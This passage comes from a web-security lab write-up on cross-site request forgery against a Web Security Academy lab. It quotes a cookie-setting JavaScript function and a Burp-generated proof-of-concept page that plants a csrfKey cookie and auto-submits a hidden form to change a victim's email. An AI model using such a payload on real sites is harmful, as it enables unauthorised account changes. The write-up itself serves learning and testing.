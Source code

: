 

Then I found some code to set the value of a cookie (https://stackoverflow.com/questions/14573223/set-cookie-and-get-cookie-with-javascript):

```
function setCookie(name,value,days) {
    var expires = "";
    if (days) {
        var date = new Date();
        date.setTime(date.getTime() + (days*24*60*60*1000));
        expires = "; expires=" + date.toUTCString();
    }
    document.cookie = name + "=" + (value || "")  + expires + "; path=/";
}

setCookie('ppkcookie','testcookie',7);
```

In our case we would change the last line to:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  
		<script>
		function setCookie(name,value,days) {
			var expires = "";
			if (days) {
				var date = new Date();
				date.setTime(date.getTime() + (days*24*60*60*1000));
				expires = "; expires=" + date.toUTCString();
			}
			document.cookie = name + "=" + (value || "")  + expires + "; path=/";
		}

		setCookie('csrfKey','Eb67I1HyfMZGN1o9KZWih0EwODxdozMg',7);
		</script>
	
	    <form action="https://0a7900c3035d83b782ebb0de009400e0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="V99KDCadmiyH6AJ1jjXnlHyZxdfQtEkl" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

However this will not work because we need to set the Cookie header, not the cookies in the browser. We can use XHR (https://learn.microsoft.com/en-us/troubleshoot/developer/webapps/iis/active-server-pages/xmlhttprequest-setrequestheader-method-cookies). Then I will create a POST request in Javascript with XHR (https://stackoverflow.com/questions/9713058/send-post-data-using-xmlhttprequest):
